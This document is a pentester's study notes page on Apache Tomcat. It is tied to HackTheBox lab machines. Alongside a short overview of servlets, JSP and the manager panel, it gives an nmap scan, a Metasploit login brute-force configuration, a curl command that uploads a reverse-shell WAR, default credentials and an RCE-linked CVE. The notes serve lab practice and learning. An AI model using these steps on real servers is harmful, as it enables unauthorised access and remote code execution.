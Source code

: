 # Apache Tomcat

<div class="row row-cols-lg-2"><div>

[Apache Tomcat](https://tomcat.apache.org/) is an open-source web server. It provides a Java HTTP web server environment in which Java code can run.

* [GitHub](https://github.com/apache/tomcat) <small>(7.1k ⭐)</small>
* [Documentation](https://tomcat.apache.org/tomcat-11.0-doc/index.html) <small>(⛪)</small>

The version 11 is still in development. The previous major versions are version 10 <small>(2021)</small>, version 9 <small>(2018)</small>, and version 8 <small>(2016)</small>.
</div><div>

A java web application can use either or both servlets and JSPs. A combination of both is the most common architecture.

* **Servlets** ☕: the whole logic is in Java
* **JSP** 🐲: html-like template files in which we can add Java logic to handle input and create interactive pages.

The admin panel to upload applications if usually at `/manager/html`. To upload an application, you need to package it as a WAR archive. Each app is deployed at a URI, and `index.jsp` is loaded by default <small>(else error)</small>.
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

[![linuxprivilegeescalation](../../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![jerry](../../../../../cybersecurity/_badges/htb-p/jerry.svg)](https://app.hackthebox.com/machines/Jerry)
[![cozyhosting](../../../../../cybersecurity/_badges/htb-p/cozyhosting.svg)](https://app.hackthebox.com/machines/CozyHosting)
![bizness](../../../../../cybersecurity/_badges/htb-p/bizness.svg)

<div class="row row-cols-lg-2"><div>

* You can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md). It often runs on port 8080.

```shell!
$ sudo nmap 10.10.10.95 -sCV -v
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

* We can often easily recognize a website using Apache Tomcat from the presence of the `JSESSIONID` cookie while we may also trigger an error to see the error message page layout.

* If you have access to the manager, you can try to upload a reverse shell. Refer to [reverse shell#tomcat](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md#tomcat-reverse-shell) for more information.

* You can try [tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) <small>(0.4k ⭐, 2022 🪦)</small>, but it's memory hungry, buggy, unstable, and you need to patch the code first 🪦.

* Maybe [Sprint Boot Actuators](/programming-languages/high-level/oo/java/others/boot/actuators.md) are being used.
</div><div>

* We can disclose tomcat version by sending a query using an invalid method that should raise a 405 (ex: `curl -X PUT URL`)

* We can try to brute force the manager account using [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md).

```shell!
$ msfconsole -q
msf6> use auxiliary/scanner/http/tomcat_mgr_login
msf6> set RHOSTS <target>
msf6> set STOP_ON_SUCCESS true
msf6> set ANONYMOUS_LOGIN true
msf6> set BLANK_PASSWORDS true
msf6> run
```

* You can also try to use metasploit to [upload a reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md#tomcat-reverse-shell)

* You can use cURL to upload a WAR too:

```ps
$ curl --upload-file revshell.war -u 'username:password' "URL/manager/text/deploy?path=/shell"
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [apache-tomcat-pentesting](https://exploit-notes.hdks.org/exploit/web/apache-tomcat-pentesting/)
* Jetty - it seems like an alternative
* `/manager/status` server status (admin:admin)
* not the same credentials on each page
* when uploading, on the same page, there are information about the server architecture, which we can use to fine tune the payload
* `jar -ft revshell.jar`/`jd-gui`: to see metasploit endpoint name
* when pressing ESC on login, it may print the message with the default credentials
</div><div>

* `/etc/tomcat9/<config files>`

While not really related:

![bizness](../../../../../cybersecurity/_badges/htb-p/bizness.svg)

* `/control/xmlrpc`, `/webtools/control/main`, `/control/checkLogin`
* Try default credentials (`admin:ofbiz`)
* [CVE-2023-50164](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) lead to RCE
</div></div>